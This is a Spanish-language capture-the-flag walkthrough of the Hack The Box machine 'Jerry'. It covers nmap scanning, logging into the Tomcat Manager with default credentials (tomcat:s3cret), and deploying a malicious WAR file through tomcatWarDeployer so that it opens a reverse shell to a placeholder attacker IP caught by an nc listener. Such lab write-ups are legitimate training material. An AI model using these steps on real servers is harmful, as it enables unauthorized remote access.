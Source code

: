 ```yaml
---
title: "Jerry"
date: "2025-03-27T00:04:43-05:00"
type: "maquinas"
draft: false
tags: ["Tomcat", "WAR-File", "Windows"]
---
```


## Descripción: 
Maquina bastante sencilla que nos pide utilizar unas credenciales predeterminadas para explotar la carga y ejecucion de archivos war en tomcat


# Enumeración

Lo primero que vamos a hacer en esta maquina después de conectarnos a la VPN es mandar los siguientes dos comandos de nmap con el fin de identificar los puertos abiertos y los servicios junto con sus versiones de estos puertos:

```bash
sudo nmap -p- --open --min-rate 5000 -sS -Pn -n 10.129.8.202 -oG allPorts
#El segundo comando se envia especificando los puertos que el primero nos mostro abiertos
#En este caso solo nos mostro el puerto 8080
nmap -p8080 -sVC -A {IP} -oN target
```

Con el primer comando vamos a hacer un escaneo rápido principalmente porque con el segundo será mas exhaustivo lo que hace el primer comando es:

- **sudo nmap -p- --open --min-rate 5000 -sS -Pn -n 10.129.8.202 -oG allPorts**
    - -p-: Escanea todos los puertos (1-65535).
    - --open: Solo muestra los puertos abiertos.
    - --min-rate 5000: Establece una tasa mínima de paquetes por segundo.
    - -sS: Realiza un escaneo SYN "sigiloso".
    - -Pn: No hace ping (asume que el host está activo).
    - -n: No realiza resolución DNS.
    - -oG allPorts: Guarda la salida en formato grepeable en el archivo allPorts.

Mientras que el segundo escaneo hace esto:

- **nmap -p8080 -sVC -A {IP} -oN target**
    - -p8080: Escanea específicamente el puerto 8080.
    - -sVC: Combina las opciones -sV (detección de versión) y -sC (scripts por defecto).
    - -A: Habilita la detección de OS, versiones, scripts y traceroute.
    - -oN target: Guarda la salida en formato normal en el archivo target.

Despues de ejecutar estos dos podremos ver la siguiente salida:

<a href="https://imgur.com/q3Wy9xj"><img src="https://i.imgur.com/q3Wy9xj.png" title="source: imgur.com" /></a>

Lo único que podemos ver con esto es que en el puerto `8080` esta corriendo un servicio `http` que esta usando `Apache Tomcat` .

## Puerto 8080

<a href="https://imgur.com/MITl8Mb"><img src="https://i.imgur.com/MITl8Mb.png" title="source: imgur.com" /></a>

Al ingresar a la pagina especificando en el navegador la IP y el puerto veremos esta pagina muy sencilla, si buscamos un poco lo único interesante que tendremos es el “Manager App” que nos pide usuario y contraseña, haciendo una rápida búsqueda de credenciales predeterminadas de apache encontramos varias probando nos daremos cuenta que funcionan `tomcat:s3cret` por lo que tendremos acceso a “Manager App”:

<a href="https://imgur.com/SOURtGO"><img src="https://i.imgur.com/SOURtGO.png" title="source: imgur.com" /></a>

Si leemos un poco lo que dice nos podremos dar cuenta que podemos subir y desplegar archivos `WAR` en la pagina.

# Explotación

Si buscamos como explotar un archivo WAR en Tomcat podremos hallar la siguiente pagina la cual nos explica como crear un archivo con una Shell reversa que podremos usar para conectarnos a la maquina [Hack Tricks](https://book.hacktricks.wiki/en/network-services-pentesting/pentesting-web/tomcat/index.html?highlight=war#msfvenom-reverse-shell).

Vamos a hacer el paso a paso para poder acceder a la maquina:

```bash
#Crear el archivo infectado
git clone https://github.com/mgeeky/tomcatWarDeployer.git
cd tomcatWarDeployer
python3 tomcatWarDeployer.py -U <username> -P <password> -H <ATTACKER_IP> -p <ATTACKER_PORT> <VICTIM_IP>:<VICTIM_PORT>/manager/html/

#Ponernos en escucha por el puerto 4444
nc -lvnp 4444
```

Después de ejecutar estos comandos vamos a entrar a la pagina y subir el archivo para posteriormente oprimir el botón `Deploy` .

Una vez hagamos esto nos debería aparecer algo parecido a lo siguiente:

<a href="https://imgur.com/4B8mc7L"><img src="https://i.imgur.com/4B8mc7L.png" title="source: imgur.com" /></a>

Vamos a darle al botón `Reload` de la aplicación `revshell` con esto habremos ingresado a la maquina ya para obtener las dos flags para Hack The Box nos dirigiremos a:

`C:\Users\Administrator\Desktop\flags`